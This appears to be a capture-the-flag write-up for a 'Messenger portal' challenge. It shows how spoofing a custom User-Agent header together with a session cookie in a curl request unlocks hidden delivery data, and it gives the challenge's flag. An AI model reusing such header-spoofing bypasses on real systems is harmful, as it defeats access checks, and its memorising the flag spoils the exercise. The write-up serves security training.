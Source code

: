 #### Challenge:

Hi, packet inspector,

our messengers are dependent on application called `Messenger portal` when they are in the field. It allows to display various information they need to do their jobs on their special mobile devices.

Currently, the AI has installed new modern and fully responsive version of the `Messenger portal` &ndash; even the validation of messenger numeric ID is not implemented yet and the messengers report problem with displaying details of they deliveries.

You have to analyze the [Messenger portal](http://messenger-portal.mysterious-delivery.thecatch.cz) and find some way to get detail information about deliveries. Hurry, please, the packages are pilling up!

May the Packet be with you!

---

#### Solution:

- after some investigation regarding the mobile usage, we realize, that using the mobile emulation in browser actually reveals functional UI
- inspecting it deeper, we find out that all we need is just valid session and `The Catcher/1.0/2022 (MessengerOS)` `User-Agent` and we can retrieve the flag

```bash
curl 'http://messenger-portal.mysterious-delivery.thecatch.cz/?messenger-jobs' \
  -H 'Cookie: PHPSESSID=0d7c896135502b28659a74b4bd75a388' \
  -H 'Referer: http://messenger-portal.mysterious-delivery.thecatch.cz/' \
  -H 'Upgrade-Insecure-Requests: 1' \
  -H 'User-Agent: User-Agent: The Catcher/1.0/2022 (MessengerOS)' \
  --compressed \
  --insecure
```

---

<details><summary>FLAG:</summary>

```
FLAG{CjJn-3bH6-xT9z-1wEE}
```

</details>
<br/>
